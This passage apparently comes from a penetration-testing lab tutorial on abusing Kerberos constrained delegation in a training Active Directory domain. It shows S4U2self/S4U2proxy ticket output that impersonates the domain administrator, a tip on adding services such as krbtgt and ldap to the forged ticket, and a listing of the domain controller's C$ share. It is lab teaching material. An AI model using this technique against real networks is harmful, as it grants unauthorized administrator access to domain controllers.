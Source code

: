 ```powershell-session
[+] S4U2self success!
[*] Got a TGS for 'administrator@INLANEFREIGHT.LOCAL' to 'HACKTHEBOX$@INLANEFREIGHT.LOCAL'
[*] base64(ticket.kirbi):

      doIGEjCCBg6gAwIBBaED<SNIP>

[*] Impersonating user 'administrator' to target SPN 'cifs/dc01.inlanefreight.local'
[*] Using domain controller: DC01.INLANEFREIGHT.LOCAL (fe80::c872:c68d:a355:e6f3%11)
[*] Building S4U2proxy request for service: 'cifs/dc01.inlanefreight.local'
[*] Sending S4U2proxy request
[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'cifs/dc01.inlanefreight.local':

      doIHEDCCBwygAwIBBaEDA<SNIP>
        
[+] Ticket successfully imported!
```

We have received our ticket.

**Note:** We can also use `/altservice:host,RPCSS,wsman,http,ldap,krbtgt,winrm` to include aditional services to our ticket request.

#### Review Tickets in the Current Terminal
```powershell-session
PS C:\Tools> klist

Current LogonId is 0:0xff74b0

Cached Tickets: (1)

#0>     Client: administrator @ INLANEFREIGHT.LOCAL
        Server: cifs/dc01.inlanefreight.local @ INLANEFREIGHT.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a10000 -> forwardable renewable pre_authent name_canonicalize
        Start Time: 8/25/2020 18:00:26 (local)
        End Time:   8/26/2020 4:00:26 (local)
        Renew Time: 9/1/2020 18:00:26 (local)
        Session Key Type: AES-128-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called:
```

Now we can list the files on the target as Administrator.

#### Connect to the Target Machine using CIFS
```powershell-session
PS C:\Tools> ls \\dc01.inlanefreight.local\c$

    Directory: \\dc01.inlanefreight.local\c$

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        2/25/2022  10:20 AM                PerfLogs
d-r---        10/6/2021   3:50 PM                Program Files
d-----        9/15/2018   4:06 AM                Program Files (x86)
d-----        3/30/2023  11:08 AM                Shares
d-----        3/30/2023   3:13 PM                Unconstrained
d-r---         4/3/2023   8:56 AM                Users
d-----       10/14/2022   6:49 AM                Windows
```
